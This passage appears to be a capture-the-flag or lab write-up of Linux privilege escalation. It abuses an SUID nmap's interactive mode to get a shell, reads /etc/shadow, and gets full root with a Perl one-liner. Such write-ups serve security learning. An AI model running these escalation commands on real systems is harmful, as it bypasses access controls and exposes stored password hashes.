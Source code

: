 Using linpeas, I found `nmap` has SUID bit enabled

Found a way to spawn an interactive nmap shell using nmap ([Reference](https://pentestlab.blog/2017/09/25/suid-executables/))
![[Pasted image 20240831163100.png]]

- start nmap interactive mode
```bash
nmap --interactive
```

```
nmap> !sh
```
![[Pasted image 20240831163310.png]]

here we can see that we can view contents of file `/etc/shadow` due to `euid=0(root)`

Found a way to become root using a post found on [stackexchange](https://unix.stackexchange.com/questions/645075/attempting-to-get-root-uid-from-root-euid) to become root from root euid
```bash
perl -MEnglish -e '$UID = 0; $ENV{PATH} = "/bin:/usr/bin:/sbin:/usr/sbin"; exec "su - root"'
```

First, I identified whether perl was present in the system
![[Pasted image 20240831163456.png]]
Got root

